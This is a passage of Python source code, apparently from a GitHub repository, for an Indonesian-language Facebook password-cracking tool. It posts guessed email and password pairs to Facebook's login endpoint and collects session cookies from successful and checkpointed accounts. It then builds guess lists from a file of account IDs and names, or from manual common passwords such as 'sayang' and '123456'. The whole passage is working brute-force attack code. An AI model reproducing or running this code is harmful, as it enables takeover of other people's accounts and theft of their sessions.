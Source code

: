 			else:
				data.update({i.get("name"):""})
		else:
			data.update({i.get("name"):i.get("value")})
	data.update(
		{"fb_dtsg":meta,"m_sess":"","__user":"0",
		"__req":"d","__csr":"","__a":"","__dyn":"","encpass":""
		}
	)
	r.headers.update({"referer":"https://free.facebook.com/login/?next&ref=dbl&fl&refid=8"})
	po=r.post("https://free.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
	if "c_user" in list(r.cookies.get_dict().keys()):
		return {"status":"success","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	elif "checkpoint" in list(r.cookies.get_dict().keys()):
		return {"status":"cp","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	else:return {"status":"error","email":em,"pass":pas}

class crack:
	os.system("clear")
	banner()
	def __init__(self,isifile):
		self.ada=[]
		self.cp=[]
		self.ko=0
		print((k+"\n["+p+"•"+k+"]"+p+" Mode Crack Password Default/Manual [d/m]"))
		while True:
			f=input(k+"["+p+"•"+k+"]"+p+" Pilih : ")
			if f=="":continue
			elif f=="m":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print(("   %s"%e))
					continue
				print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
				self.pwlist()
				break
			elif f=="d":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})